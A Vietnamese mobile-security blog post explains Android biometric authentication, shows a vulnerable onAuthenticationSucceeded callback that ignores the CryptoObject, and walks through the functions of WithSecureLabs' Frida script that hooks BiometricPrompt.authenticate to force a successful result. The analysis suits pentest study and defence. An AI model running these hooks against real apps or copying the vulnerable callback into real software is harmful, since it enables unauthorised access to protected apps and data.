 ```yaml
---
title: "FINGERPRINT BYPASS"
layout: posts
last_modified_at: 29-12-2023T16:08:30
categories:
  - Blog
tags:
  - Security Mobile
  - Hacking Mobile
  - Pentest Mobile
---
```


**Date created: Fri, 29-12-2023 08:30**

## Mở đầu

Biometric authentication được thực hiện bằng cách sử dụng class `FingerprintManager` hoặc `BiometricPrompt` để quản lý cơ chế authentication và hộp thoại thông báo của ứng dụng yêu cầu người dùng authenticate.
Class `FingerprintManager` được giới thiệu trong API 23 chỉ hỗ trợ xác thực dấu vân tay và không dùng nữa kể từ API 28. Thay vào đó `BiometricPrompt` được phát hành và cách sử dụng cũng khá tương đồng với `FingerprintManager`.

## Biometric/Fingerprint authentication

Theo như tài liệu của Android, class `BiometricPrompt` có một phương thức rất quan trọng đó là `authenticate`.

```java
public void authenticate (BiometricPrompt.CryptoObject crypto, CancellationSignal cancel, Executor executor, BiometricPrompt.AuthenticationCallback callback)
```

Phương thức này sẽ khởi động phần cứng biometric, hiển thị hộp thoại do hệ thống cung cấp yêu cầu sinh trắc học của người dùng và bắt đầu quét để xác thực sinh trắc học. Phương thức này bao gồm các đối số(arguments) lần lượt là:

- [ **`crypto`**](https://developer.android.com/reference/android/hardware/biometrics/BiometricPrompt.CryptoObject): Đối tượng này chứa tham chiếu tới entry trong keystore cần được mở khoá. Để triển khai xác thực sinh trắc học một cách an toàn, keystore key bên trong đối tượng **`crypto`** phải được sử dụng cho một số các hoạt động cryptographic quan trọng của ứng dụng.
- [**`cancel`**](https://developer.android.com/reference/android/os/CancellationSignal): Đối tượng này dùng để huỷ việc xác thực.
- [**`executor`**](https://developer.android.com/reference/java/util/concurrent/Executor): Executor này sẽ chịu trách nhiệm xử lý các sự kiện của callback.
- [**`callback`**](https://developer.android.com/reference/android/hardware/biometrics/BiometricPrompt.AuthenticationCallback): Đối tượng này là một `structure with callbacks` sẽ nhận các sự kiện xác thực được dispatch thông qua Executor.
  Trong đó hai đối số quan trọng mà cần chú ý dó là **`crypto`** và **`callback`** vì nó chịu trách nhiệm liên quan tới vấn đề xác thực của phương thức này.
  Tham số `BiometricPrompt.AuthenticationCallback` được sử dụng như một callback structure thực hiện các phương thức như là:
- [onAuthenticationSucceeded(BiometricPrompt.AuthenticationResult result)](<https://developer.android.com/reference/android/hardware/biometrics/BiometricPrompt.AuthenticationCallback.html#onAuthenticationSucceeded(android.hardware.biometrics.BiometricPrompt.AuthenticationResult)>)
- [onAuthenticationError](<https://developer.android.com/reference/android/hardware/biometrics/BiometricPrompt.AuthenticationCallback.html#onAuthenticationError(int,%20java.lang.CharSequence)>)()
- [onAuthenticationFailed](<https://developer.android.com/reference/android/hardware/biometrics/BiometricPrompt.AuthenticationCallback.html#onAuthenticationFailed()>)()
  Trong đó phương thức `onAuthenticationSucceeded` sẽ kích hoạt khi người dùng được hệ thống xác thực thành công. Phương thức mở khoá ứng dụng thường có sẵn bên trong cái phương thức `callback` này.
  Ý tưởng khai thác cho vấn đề này là thực hiện hooking vào process của ứng dụng và thực hiện gọi trực tiếp phương thức **`onAuthenticationSucceded`** từ đó ứng dụng sẽ được mở khoá ngay lập tức mà không cần cung cấp sinh trắc học hợp lệ.
  Việc triển khai của phương thức **`onAuthenticationSucceded`** có lỗ hổng thường sẽ tương tự như đoạn code sau:

```java
public void onAuthenticationSucceeded(FingerprintManager.AuthenticationResult result) {
// Hiển thị thông báo truy cập thành công
Toast.makeText(getActivity(), "Access granted",Toast.LENGTH_LONG).show();
// Phương thức truy cập có sẵn bên trong phương thức được gọi
accessGranted();
}
```

Ta có thể thấy một điều rằng đoạn code ở trên không hề sử dụng bất kỳ đối tượng `CryptoObject` nào được truyền vào `AuthenticationResult` thay vào đó chỉ giả xử rằng quá trình xác thực đã thành công vì phương thức `onAuthenticationSucceded` được gọi.

## Phân tích script dùng để bypass fingerprint-bypass của [WithSecureLabs](https://github.com/WithSecureLabs)

Như đã mô tả ở trên, hướng tiếp cận của script là thực hiện hook vào callback method `onAuthenticationSucceded` để bypass qua việc xác thực sinh trắc học dựa vào cơ chế cho phép truy cập mà không cần xem xét tới đối tượng `cryptoObject`.

```javascript
function getAuthResult(resultObj, cryptoInst) {
  try {
    var authenticationResultInst = resultObj.$new(cryptoInst, null, 0, false);
  } catch (error) {
    try {
      var authenticationResultInst = resultObj.$new(cryptoInst, null, 0);
    } catch (error) {
      try {
        var authenticationResultInst = resultObj.$new(cryptoInst, null);
      } catch (error) {
        try {
          var authenticationResultInst = resultObj.$new(cryptoInst, 0);
        } catch (error) {
          var authenticationResultInst = resultObj.$new(cryptoInst);
        }
      }
    }
  }
  console.log(
    "cryptoInst:, " + cryptoInst + " class: " + cryptoInst.$className
  );
  return authenticationResultInst;
}
```

Script trước tiên sẽ định nghĩa ra hàm `getAuthResult` nhận vào hai tham số (`resultObj` và `cryptoInst`). Hàm này sẽ cố gắng tạo ra một thể hiện(instance) `AuthenticationResult` của class `android.hardware.biometrics.BiometricPrompt$AuthenticationResult` bằng cách thử kết hợp nhiều đối số của phương thức khởi tạo hàm(constructor). Mục đích là để xử lý các constructor signatures khác nhau có thể có trong các phiên bản hoặc các triển khai(implementations) Android khác nhau.

```javascript
function getBiometricPromptAuthResult() {
  var sweet_cipher = null;
  var cryptoObj = Java.use(
    "android.hardware.biometrics.BiometricPrompt$CryptoObject"
  );
  var cryptoInst = cryptoObj.$new(sweet_cipher);
  var authenticationResultObj = Java.use(
    "android.hardware.biometrics.BiometricPrompt$AuthenticationResult"
  );
  var authenticationResultInst = getAuthResult(
    authenticationResultObj,
    cryptoInst
  );
  return authenticationResultInst;
}
```

Tiếp theo, script định nghĩa một hàm tên là `getBiometricPromptAuthResult`, để tạo ra một thể hiện của `BiometricPrompt$AuthenticationResult`. Đồng thời cũng tạo ra một thể hiện mới của `BiometricPrompt$CryptoObject` với giá trị `Cipher` bằng `null`. Sau đó gọi hàm `getAuthResult` truyền vào hai tham số là `authenticationResultObj` và `cryptoInst` mới được tạo trước đó để lấy được giá trị cuối cùng của thể hiện(instance) `AuthenticationResult`.

```javascript
function hookBiometricPrompt_authenticate() {
  var biometricPrompt = Java.use("android.hardware.biometrics.BiometricPrompt")[
    "authenticate"
  ].overload(
    "android.os.CancellationSignal",
    "java.util.concurrent.Executor",
    "android.hardware.biometrics.BiometricPrompt$AuthenticationCallback"
  );

  console.log("Hooking BiometricPrompt.authenticate()...");

  biometricPrompt.implementation = function (
    cancellationSignal,
    executor,
    callback
  ) {
    console.log(
      "[BiometricPrompt.BiometricPrompt()]: cancellationSignal: " +
        cancellationSignal +
        ", executor: " +
        ", callback: " +
        callback
    );

    var authenticationResultInst = getBiometricPromptAuthResult();

    callback.onAuthenticationSucceeded(authenticationResultInst);
  };
}
```

Hàm `hookBiometricPrompt_authenticate`, được định nghĩa để thực hiện hook vào phương thức `authenticate` của class `android.hardware.biometrics.BiometricPrompt` có đối số lần lượt là ==('android.os.CancellationSignal', 'java.util.concurrent.Executor', 'android.hardware.biometrics.BiometricPrompt$AuthenticationCallback')==. Tiếp đó thực hiện in ra các tham số của hàm `biometricPrompt.authenticate` đó và gọi hàm `getBiometricPromptAuthResult` đã được định nghĩa ở trên, lưu vào biến `authenticationResultInst`. Cuối cùng là gọi phương thức callback `onAuthenticationSucceeded` và truyền vào biến `authenticationResultInst`.

```
function hookBiometricPrompt_authenticate2() {

    var biometricPrompt = Java.use('android.hardware.biometrics.BiometricPrompt')['authenticate'].overload('android.hardware.biometrics.BiometricPrompt$CryptoObject', 'android.os.CancellationSignal', 'java.util.concurrent.Executor', 'android.hardware.biometrics.BiometricPrompt$AuthenticationCallback');

    console.log("Hooking BiometricPrompt.authenticate2()...");

    biometricPrompt.implementation = function (crypto, cancellationSignal, executor, callback) {

        console.log("[BiometricPrompt.BiometricPrompt2()]: crypto:" + crypto + ", cancellationSignal: " + cancellationSignal + ", executor: " + ", callback: " + callback);

        var authenticationResultInst = getBiometricPromptAuthResult();

        callback.onAuthenticationSucceeded(authenticationResultInst);

    }

}
```

Hàm `hookBiometricPrompt_authenticate2`, cũng tương tự nhưng đối số sẽ bao gồm thêm ==('android.hardware.biometrics.BiometricPrompt$CryptoObject')==. Đối tượng này như đã được trình bày ở trên sẽ chịu trách nhiệm về các vấn đề liên quan đến việc tham chiếu tới keystore entry của ứng dụng.

## Tổng kết

Bên trên là bài báo cáo chi tiết về nguyên do dẫn đến lỗi `Biometric authentication` này cũng như luồng thực thi của script frida fingerprint bypass của WithSecureLabs.

---

References:

- https://labs.withsecure.com/publications/how-secure-is-your-android-keystore-authentication

---
